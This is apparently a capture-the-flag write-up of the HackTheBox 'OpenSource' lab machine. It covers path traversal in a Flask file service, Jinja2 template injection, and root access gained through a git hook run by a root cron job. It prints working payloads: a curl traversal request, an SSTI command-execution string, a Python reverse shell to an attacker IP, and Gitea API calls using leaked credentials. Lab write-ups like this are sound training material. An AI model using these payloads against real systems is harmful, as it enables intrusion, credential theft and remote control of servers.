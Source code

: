 ```yaml
---
title: "HackTheBox: \"OpenSource\" Walkthrough"
date: 2022-06-09
tags: ['hackthebox', 'ctf']
categories: ["HackTheBox Walkthrough"]
slug: "hackthebox-opensource-walkthrough"
draft: true
---
```


Knowledge of Python and the Jinja2 template engine is definitely helpful.<!--more-->

## Foothold

We start with the usual `nmap` scan:

```plain
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
3000/tcp filtered ppp
```

As for almost every machine, port 22 and 80 are open. But there is also
a "filtered" port - we can't do anything with it right now, but we should
keep it in mind for later.

Visiting the website, we find some kind of minimalistic "cloud service":
We can upload and download files, but we can also download the source code
of the application - time for some code review 😉

The application seems to be running inside a Docker container, using the
`python:3-alpine` image. There is an upload and a download route defined
and both use a custom function to sanitize paths:

```python
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")

def recursive_replace(search, replace_me, with_me):
    if replace_me not in search:
        return search
    return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
```

The download route is implemented like this:
```python
@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

Time to read the [python documentation](https://docs.python.org/3/library/os.path.html#os.path.join)
for `os.path.join`:

> Join one or more path components intelligently. The return value is the concatenation of path and any members of *paths with exactly one directory separator following
each non-empty part except the last, meaning that the result will only end in a separator if the last part is empty. **If a component is an absolute path, all
previous components are thrown away** and joining continues from the absolute path component.
>


I have highlighted the important part. Let's see what this means:

```plain
>>> os.path.join(os.getcwd(),'foobar')
'/home/kali/foobar'
>>> os.path.join(os.getcwd(),'/foobar')
'/foobar'
```

Now we have to build an URL that is both captured by the `<path:path>` filter
of the route and allows path traversal. We know that the sequence `../` is removed
(replaced by an empty string), so we try the following request (note that `%2f` is
the encoded variant of `/`):

```plain
$ curl 'http://10.10.11.164/uploads/..%2f/etc/passwd'
root:x:0:0:root:/root:/bin/ash
[...]
```

Great! We can read arbitrary files - and because the upload uses the same way
to "sanitize" file names/paths, we can also upload arbitrary files. But
as we are inside a container, this is of limited use - we can't just upload
our SSH public key and have root access. Having shell access is always useful,
so let's try that next.

After doing a bit of research, I found that there are multiple ways to execute
code in a Jinja2 template. Let's create a file with the following contents:

```plain
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

And upload it, overwriting the existing template that is shown after a file
was uploaded:

```plain
$ curl -F file='@payload-id;filename=..//app/app/templates/success.html' http://10.10.11.164/upcloud
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

At this point, I played around a lot to get a working reverse shell - mostly
by trying to replace the `id` command with one of the usual `nc`/`sh` commands,
but none of that worked. So I did a bit more research and found that Jinja2
allows to load "config" files inside a template, which are basically Python
files that are executed. So I uploaded a file with the following contents:

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.2",4000));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty;
pty.spawn("sh")
```

And also replaced the `success.html` template on the server with a file with the
following contents:

```plain
{{ config.from_pyfile('templates/payload.py') }}
```

Success - we have a working reverse shell.

# User

We are still inside the docker container. Remember that filtered port we found
at the start? As it's supposedly a service that is running on the host, not
inside the docker container, we can use the `ip route` command to get the
gateway IP address - which allows us to access the host system. Running `wget`
against that IP and port 3000, we find a Gitea installation. Gitea of course
has an [API](https://docs.gitea.io/en-us/api-usage/#api-guide), so let's use
that API to explore the Gitea instance. There are no publicly accessible repos,
and the installed version is 1.16.6, which does not seem to be exploitable.

So this looks like a dead end - but that's unlikely, at least in this scenario
(an "easy" difficulty HackTheBox machine), where every service exists for a reason.
We likely overlooked something: Inside the source code download there was
also a `.git` folder and I *did* check the history for removed credentials.
But I did *not* check if there is more than one branch. Turns out: there is
another branch with a few commits - and one of it has credentials in it!

Let's use those credentials to authenticate against Gitea:

```plain
wget -O- --header='Content-Type: application/json' --header='Accept: application/json' \
--header='Authorization: Basic ZGV2MDE6U291bGxlc3NfRGV2ZWxvcGVyIzIwMjI=' 'http://172.17.0.1:3000/api/v1/user/repos'
```

Here we go - that user has a private repository. Reading a bit more through
the Gitea API docs, we find a way to download that repository (after finding out
which branches exist in that repository).

```plain
wget --header='Content-Type: application/json' --header='Accept: application/json' \
--header='Authorization: Basic ZGV2MDE6U291bGxlc3NfRGV2ZWxvcGVyIzIwMjI=' \
'http://172.17.0.1:3000/api/v1/repos/dev01/home-backup/archive/main.zip'
```

We can now easily download that zip file using the running web application.
The file seemingly contains a backup of the user's home folder and includes
a private SSH key (`id_rsa`). We extract that key and can login to the host
machine using SSH! (Don't forget to `chmod 600` the key file, otherwise the `ssh`
command will reject it.)

# Root

First step to get root access: Running LinPEAS 😀 Unfortunately, there
was nothing obvious standing out. Fortunately, we have another tool to get
more insight into a machine: [pspy](https://github.com/DominicBreuker/pspy).
After starting it, we don't have to wait long until something *very* interesting
happens:

```plain
2022/06/08 22:51:01 CMD: UID=0    PID=21785  | /bin/bash /usr/local/bin/git-sync
2022/06/08 22:51:01 CMD: UID=0    PID=21784  | /bin/sh -c /usr/local/bin/git-sync
2022/06/08 22:51:01 CMD: UID=0    PID=21783  | /usr/sbin/CRON -f
2022/06/08 22:51:01 CMD: UID=0    PID=21786  | git status --porcelain
2022/06/08 22:51:01 CMD: UID=0    PID=21788  | git add .
2022/06/08 22:51:01 CMD: UID=0    PID=21789  | git commit -m Backup for 2022-06-08
2022/06/08 22:51:01 CMD: UID=0    PID=21790  | git push origin main
```

The source of `git-sync`:

```bash
#!/bin/bash

cd /home/dev01/

if ! git status --porcelain; then
    echo "No changes"
else
    day=$(date +'%Y-%m-%d')
    echo "Changes detected, pushing.."
    git add .
    git commit -m "Backup for ${day}"
    git push origin main
fi
```

So this script makes "backups" of the home directory using git - and is running
as root user! Now we only need to make git run arbitrary code - which is rather
easy by using [hooks](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks).
In `~/.git/hooks/`, we create a file `post-commit` (it's possible to use another hook,
this one was chosen for no particular reason - also don't forget to `+x` the file):

```bash
cp /root/root.txt /home/dev01/root.txt
chmod o+r /home/dev01/root.txt
```

Now we just need that `git-sync` script to make a commit, which we can trigger
by modifying something in the home directory (e.g. `touch foo`). After
waiting a moment, the `root.txt` appears in our home directory - readable by
everyone. Done!

## Conclusion and Learnings

When reading a Walkthrough like this, it may look like a straight path, which
is almost never true. For example I spent a lot of time looking for ways
to escape the Docker container. It took a while until I had a second look
at the downloaded git repository and found the second branch containing
the Gitea credentials - trying to escape the Docker container was a dead end.
Furthermore, I probably spent half the time on this machine on getting
the reverse shell working. I had no experience exploiting Jinja2 before, so
this was definitely a learning.